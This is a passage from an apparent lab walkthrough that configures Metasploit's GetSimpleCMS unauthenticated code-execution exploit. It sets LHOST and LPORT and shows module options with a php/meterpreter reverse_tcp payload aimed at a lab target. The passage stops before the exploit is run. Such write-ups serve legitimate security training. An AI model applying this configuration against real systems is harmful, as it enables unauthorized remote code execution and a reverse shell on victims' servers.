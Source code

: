 `> ip a`

```bash
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 10.10.14.115/23 scope global tun0
```
The `inet` address up until the `/` will be our NIC address and should therefore be set with the following command.

`> set LHOST 10.10.14.115`

You can also simply specify your interface name like tun0, eth0, etc instead of your IP address.

As you may figure, LPORT is the port on our host that's to be used. We can usually leave this on the default option so let's leave it on `4444`. 

If we do the following command again, we will see that our settings have all been changed to our desired options.

`> show options`

```bash
Module options (exploit/multi/http/getsimplecms_unauth_code_exec):                                                                                    
                                                                                                                                                      
   Name       Current Setting  Required  Description                                                                                                  
   ----       ---------------  --------  -----------                                                                                                  
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]                                                 
   RHOSTS     10.129.42.249    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit                 
   RPORT      80               yes       The target port (TCP)                                                                                        
   SSL        false            no        Negotiate SSL/TLS for outgoing connections                                                                   
   TARGETURI  /                yes       The base path to the cms                                                                                     
   VHOST                       no        HTTP server virtual host                                                                                     
                                                                                                                                                      
                                                                                                                                                      
Payload options (php/meterpreter/reverse_tcp):                                                                                                        

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.115     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before

```
Everything looks good to go, so lets move on to the moment we've **ALL** been waiting for: using the exploit.
## Using the GetSimpleCMS Exploit
Before running the exploit, we should run the following command to ensure that our exploit works against the machine.
